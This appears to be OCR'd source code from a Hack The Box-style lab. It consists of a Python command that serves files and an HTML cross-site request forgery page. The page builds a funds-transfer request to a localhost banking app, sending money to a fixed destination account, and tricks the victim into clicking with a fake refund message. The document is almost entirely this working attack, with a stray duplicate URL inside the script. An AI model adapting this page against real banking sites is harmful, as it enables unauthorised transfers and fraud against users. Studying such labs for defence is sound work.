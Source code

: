 \begin{verbatim}
```bash
    python -m SimpleHTTPServer 81
```

```html
<html>
<body>
    <script>
        const queryString = window.location.search;
        console.log(queryString);
        const urlParams = new URLSearchParams(queryString);
        const accountNo = urlParams.get('x');

        function getURL() {

            const url = "http://localhost/htdocs/index.php?page=htbtransfer&srcacc=" + accountNo + "&dstbank=41131337&dstacc=14314312&amount=1.95&remark=&htbtransfer=Transfer";
            http://localhost/htdocs/index.php?page=htbtransfer&srcacc=173105291&dstbank=41131337&dstacc=11111111&amount=1&remark=&htbtransfer=Transfer 
            window.open(url, "_blank");
        }
    </script>
    <html>
    <body>
        We are very sorry for the inconvenience, you had an error while during the last transaction, please click the
        button bellow to claim your refund plus 1 cent gift.
        <button onclick="getURL()"> Proceed </button>

    </body>

    </html>
```
\end{verbatim}

